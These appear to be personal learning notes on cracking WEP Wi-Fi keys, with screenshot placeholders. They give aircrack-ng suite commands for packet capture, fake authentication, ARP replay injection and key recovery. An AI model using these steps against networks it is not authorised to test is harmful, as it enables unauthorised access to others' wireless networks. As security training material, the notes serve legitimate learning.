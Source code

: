 ![[Screenshot 2025-03-05 182121.png]]

## Gaining Access - WEP Cracking
![[Screenshot 2025-03-05 182236.png]]![[Screenshot 2025-03-05 182312.png]]
![[Screenshot 2025-03-05 182418.png]]
![[Screenshot 2025-03-05 182543.png]]
![[Screenshot 2025-03-05 182644.png]]

First, we need to start capturing the packets that contain IVs : `airodump-ng --bssid <SSID> --channel <number> --write <filename> mon0`
Then we need to analyze them and crack the key : `aircrack-ng <filename>.cap`

A key will be provided to us which will help us in connecting the WiFi.
![[Screenshot 2025-03-05 183151.png]]

## Associating with Target Network using Fake Authentication Attack
And then this key provided is the password just by removing the `:`.
![[Screenshot 2025-03-05 183420.png]]
![[Screenshot 2025-03-05 184107.png]]
 To associate with the AP we'll use a tool called `aireplay-ng --fakeauth 0 -a <mac-of-targett-network> -h <mac-of-wireless-adapter> <name-of-wireless-adapter> `
Here we don't connect with the network accessing its internet rather we just associate with it which helps in communication.

## Packet Injection - ARP Request
![[Screenshot 2025-03-05 184627.png]]
Now, we'll run an Aireplay Attack : `aireplay-ng --arpreplay -b <mac-of-target-network> -h <mac-of-wireless-adapter> <name-of-wireless-adapter>` 

And then as soon as the ARP Request is received, we'll try to associated to the AP  :  `aireplay-ng --fakeauth 0 -a <mac> -h <mac> <wireless-adapter-name>`

Then after associating we'll run the command to crack the key using the command : `aircrack-ng <filename>.cap`

